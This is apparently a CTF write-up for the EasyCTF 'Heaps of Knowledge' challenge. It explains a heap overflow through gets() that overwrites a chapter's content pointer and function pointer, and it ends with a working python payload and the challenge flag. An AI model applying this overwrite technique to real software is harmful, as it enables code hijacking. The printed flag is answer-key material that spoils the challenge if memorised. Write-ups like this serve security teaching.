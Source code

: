 #Heaps of Knowledge - 420 Points

We were given a binary. We run it to see what it does.
It prompts you for a book name, then there are three options:

```
Please enter the title of the book you would like to write: AAAA
You have started writing the book 'AAAA'. Please select an option to get started!
1. Edit chapter
2. Delete chapter
3. Publish book
```

After experimenting with this program, you find out that you can only create a chapter starting from 1, 2, 3 and so on. Also you can only delete an existing chapter otherwise the program will exit. Then, publish prints the title, and the content of each chapter. Then, if you edit an existing chapter, it changes it's content.

Because this problem is called Heaps of Knowledge, we can be fairly certain this will be a heap exploit.
We can run this in gdb, enter a random book title, let's say "AAAA" then view our heap using:

>info proc mappings

```
(gdb) x/50wx 0x804c000
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000000
0x804c010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00020fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see that the first section consists of an address to the actual title of the book, contained in another section. Let's do the same after adding a couple of chapters. Let's set chapter 1's name to BBBB, and it's content to CCCC while chapter 2's name to DDDD and it's content to EEEE

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804872f      0x00000011
0x804c040:      0x42424242      0x0000000a      0x00000000      0x00000011
0x804c050:      0x43434343      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804c088
0x804c070:      0x0804872f      0x00000011      0x44444444      0x0000000a
0x804c080:      0x00000000      0x00000011      0x45454545      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
```

We can see that this is very similar in structure. The section containing addresses for chapters, however, contains three addresses: the chapter's name, chapter's content, and huh? what is the last one? We can quickly view it using

>x 0x0804872f

```
0x804872f <print_chapter>:      0x83e58955
```

We see that this is an address pointing to the function to print this chapter. From this knowledge, we can surmise that the edit chapter edits content at the chapter's content's address (for chapter 1 in this case, it is 0x0804c050). Then the publish function most likely calls the function at the print chapter address stored on the heap. (for chapter 1 it is 0x0804872f).

Next, we look into the disassembly of the binary. I used IDA to disassemble this binary.

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/screenshot1.PNG)

It uses gets() to get the content of the chapter text! This means we can overflow the heap because gets does not check the length of the string you give it. Using this, we can pretty much construct the heap to whatever we want it to look like.
We then see a give_flag function as look into it. It reads the flag file and prints it's contents. However, there's a catch

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/image.png)

success needs to be set to 0x13371337 in order for the flag file to be read. And we see that success is set to just 0x1337 in default. However, we can use the edit chapter content function of the program to change the address of chapter content and write to that address. Then if we set the address of print chapter to give_flag, publishing the book should give us our flag.

I used gdb to get the address of give_flag, and IDA for success:

>p give_flag

```
$2 = {<text variable, no debug info>} 0x804879a <give_flag>
```

and success = 0x0804b054

Now I used gdb to create two chapters, and manually edit the heap to what I want it to look like using:

>set {int}address=value

Here is the state of the heap:

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x42424242
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804879a <give_flag> 0x00000011
0x804c040:      0x43434343      0x0000000a      0x00000000      0x00000011
0x804c050:      0x44444444      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804b054 <success>
0x804c070:      0x0804872f      0x00000011      0x45454545      0x0000000a
0x804c080:      0x00000000      0x00000011      0x46464646      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c100:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c110:      0x00000000      0x00000000
```

Then after editing the contents of chapter 2 to 0x13371337 and publishing, the contents of flag.txt was successfully printed.


Now we know the requirements for the exploit:
1) Change address of chapter content to address of success
2) Edit that chapter's content to 0x13371337
3) Change address of print chapter to address of give_flag
4) Publish

Now, we just have to construct an exploit.

I decided to create 2 chapters and overflow the second chapter's addresses through the first chapter's content.

The key input order will be:

AAAA

1

1

BBBB

CCCC

1

2

DDDD

EEEE

1

1

"C" * 24 + 0x804c078 + 0x0804b054 + 0x804879a

1

2

0x13371337

3

I printed the non printable ascii characters with python and piped the input into the binary

python -c "print 'AAAA\n1\n1\nBBBB\nCCCC\n1\n2\nDDDD\nEEEE\n1\n1\n' + 'C'*24 + '\x78\xc0\x04\x08' + '\x54\xb0\x04\x08' + '\x9a\x87\x04\x08\n' + '1\n2\n' + '\x37\x13\x37\x13\n' + '3\n'" | ./heaps_of_knowledge

##Flag

>easyctf{4r3nT_u_hav1ng_h34pz_0f_Fun?}
